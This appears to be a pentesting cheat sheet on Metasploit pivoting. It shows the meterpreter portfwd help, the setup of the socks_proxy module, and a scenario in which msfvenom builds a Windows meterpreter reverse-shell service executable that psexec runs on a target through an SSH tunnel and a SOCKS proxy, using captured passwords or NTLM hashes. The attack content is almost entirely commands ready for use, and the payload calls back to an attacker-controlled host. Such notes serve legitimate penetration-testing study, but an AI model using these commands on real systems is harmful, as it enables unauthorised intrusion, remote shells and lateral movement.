 # Metasploit

## 01 - Portfwd

### 1.1 - Help Menu

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

### 1.2 - Usage

`meterpreter > portfwd <add | delete> -l <local_port> -p <bind_port> -r <target_IP> -R -L <attacker_IP>`

## 02 - SOCKS Proxy

### 2.1 - Usage

```
msf > use auxiliary/server/socks_proxy

msf auxiliary(server/socks_proxy) > options 

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  1080             yes       The port to listen on
   VERSION  5                yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server



View the full module info with the info, or info -d command.

msf auxiliary(server/socks_proxy) > set version <4a | 5>

msf auxiliary(server/socks_proxy) > set srvhost <IP>

msf auxiliary(server/socks_proxy) > set srvport <PORT>

msf auxiliary(server/socks_proxy) > set username <username>

msf auxiliary(server/socks_proxy) > set password <password>

msf auxiliary(server/socks_proxy) > run -j
```

Refer to [[Proxychains]] section

### 2.2 - Scenarios

#### 2.2.1 - Dynamic Port Forwarding via Metasploit Framework

TODO: Provide screenshots and a graph illustration

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<SSH_IP> lport=4343 -f exe-service -o shellsvc.exe

$ ssh -R 4343:127.0.0.1:8884 <username>@<IP>

msf exploit(windows/smb/psexec) > set rhosts <IP>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password | ntlm_hash>

msf exploit(windows/smb/psexec) > set lhost <SSH_IP>

msf exploit(windows/smb/psexec) > set lport 4343

msf exploit(windows/smb/psexec) > set proxies socks4:127.0.0.1:1080

msf exploit(windows/smb/psexec) > set reverseallowproxy true

msf exploit(windows/smb/psexec) > set reverselistenerbindaddress 127.0.0.1

msf exploit(windows/smb/psexec) > set reverselistenerbindport 8884

msf exploit(windows/smb/psexec) > set exe::custom /path/to/shellsvc.exe
```

## References

- [Using Metasploit Routing and Proxychains for Pivoting](https://infinitelogins.com/2021/02/20/using-metasploit-routing-and-proxychains-for-pivoting/)

- [Basic Pivoting Techniques: SSH Dynamic Port Forwarding + Metasploit over SSH](https://www.youtube.com/watch?v=6gqwxGE4o8E)

- [SlayerLabs Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)